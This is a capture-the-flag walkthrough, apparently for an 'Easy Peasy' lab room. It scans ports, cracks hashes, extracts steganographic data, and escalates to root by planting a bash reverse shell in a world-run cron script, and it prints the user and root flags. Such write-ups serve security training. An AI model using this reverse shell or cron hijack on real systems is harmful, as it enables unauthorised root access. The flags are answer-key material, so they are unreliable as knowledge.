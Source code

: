 1 question 

nmap -A -p- <ip address>

2 question 

The answer is on the nmap scan 

3 question 

The answer is also on the nmap scan 


4 question 

gobuster dir -u http://<ip address> -w <wordlist of your choice>
you will get a output called hidden 
on the url http://<ip adddress/hidden/whatever
you ctrl+u to see the page source 
you will see a hash
you can use this command to decode it echo "<the string>" | base64 -d on our terminal 

5 question 

curl -s http://<ip address>/robots.txt 
you will see a hash
you can use a online hash cracker to crack the hash 

6 question 

curl -s http://<ip address>:65524/ | grep flag

7 question 

curl -s http://<ip address>:65524/ | grep hidden 
you will get a base 62 hash 
you can use a online hash cracker to crack the hash 

8 question 

curl -s http://<ip address>/n0th1ng3ls3m4tt3r/
you have to use their wordlist to crack it I decided to use john the ripper 
john --wordlist=easypeasy.txt --format=GOST <file that have your hash> (The command for jtr)

9 question 

You can download the photo 
we can use the command called steghide 
setghide --extract -sf <file name>
cat secrettext.txt 
you can use cyberchef to decode the binary 

10 question 

ssh boring@<ip address> -p6498
ls -la
cat user.txt 
synt{a0jvgf33zfa0ez4y} this is encoded in ROT10
we can use an online ROT10 cracker to do it 

11 question 

cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
The file is owned by our user, we can modify it.

boring@kral4-PC:~$ ls -l /var/www/.mysecretcronjob.sh 
-rwxr-xr-x 1 boring boring 33 Jun 14 22:43 /var/www/.mysecretcronjob.sh
boring@kral4-PC:~$ cat /var/www/.mysecretcronjob.sh 
#!/bin/bash
# i will run as root
Let’s edit the script with nano (vim is not installed on the target), and add a reverse shell:

boring@kral4-PC:/var/www$ nano .mysecretcronjob.sh 
boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh 
#!/bin/bash
# i will run as root
bash -i >& /dev/tcp/<this will be ip address that is given to you by the vpn/4444 0>&1

kali@kali:/data/Easy_Peasy/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.105.32] 55704
bash: cannot set terminal process group (1741): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# whoami
whoami
root
root@kral4-PC:/var/www# cd /root
cd /root
root@kral4-PC:~# ll
ll
total 40
drwx------  5 root root 4096 Jun 15 12:40 ./
drwxr-xr-x 23 root root 4096 Jun 15 01:08 ../
-rw-------  1 root root    2 Aug 24 02:47 .bash_history
-rw-r--r--  1 root root 3136 Jun 15 12:40 .bashrc
drwx------  2 root root 4096 Jun 13 15:40 .cache/
drwx------  3 root root 4096 Jun 13 15:40 .gnupg/
drwxr-xr-x  3 root root 4096 Jun 13 15:44 .local/
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15 01:01 .root.txt
-rw-r--r--  1 root root   66 Jun 14 21:48 .selected_editor
root@kral4-PC:~# cat .root.txt
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
Answer: flag{63a9f0ea7bb98050796b649e85481845}
